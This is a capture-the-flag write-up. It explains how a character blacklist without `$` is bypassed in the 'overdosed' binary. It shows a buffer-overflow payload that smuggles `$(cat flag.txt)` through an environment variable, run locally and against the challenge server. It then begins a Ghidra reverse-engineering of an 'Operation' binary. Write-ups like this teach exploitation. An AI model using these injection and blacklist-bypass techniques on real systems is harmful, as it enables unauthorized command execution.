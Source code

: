 This is simple enough its a blacklist function, that triggers on any occurrences of these characters ```['/', '&', '(', '\"', '`', '|', ';']```.

A couple of interesting things to note:
- There is no `$` blacklisting.
- There is a bypass flag `param_3`.
    - The call from `first_chall` is set to `1` allowing a bypass.
    - The call from `main` is set to `0`, so we have a restricted CI there.

### Lets put this all together then
- We use the BOF to set `name` env to a command of our choice.
    - `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$(echo "bread")`
- We then call `name` using `$name`

```bash
bread@sticks:~# ./overdosed 
Could you tell me about yourself?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$(echo "bread")
Hey, I am from TMHC. Could you tell me your name?
Name: $name
Hello bread
```

yep that works, guess the stack is set up how I expected. lets try it on the server.

```bash
bread@sticks:~# nc docker.hackthebox.eu 1337
Could you tell me about yourself?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$(cat flag.txt)
Hey, I am from TMHC. Could you tell me your name?
Name: $name
Hello TMHC{}
```

Got the flag

    `TMHC{}`

## Operation - Category: RE

Opened in ghidra read `main()`
```c
undefined8 main(int argc,undefined8 *argv){
  int iVar1;
  char local_28 [32];
  
  if (argc < 2) {
    printf("Usage: %s <file>\n",*argv);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (2 < argc) {
    iVar1 = strncmp("--debug",(char *)argv[2],7);
    if (iVar1 == 0) {
      isDebug = 1;
      printf("operations is at: %p\n",operations);
    }
  }
  readFlag(local_28,(char *)argv[1]);
  operations((long)local_28,0);
  puts(local_28);
  return 0;
}
```
Which as you can see at the bottom 2 functions are called firstly `readFlag()` then `operations()`.
If we quickly look at `operations()` if `param_2` does not equal `0` then the operations are not applied.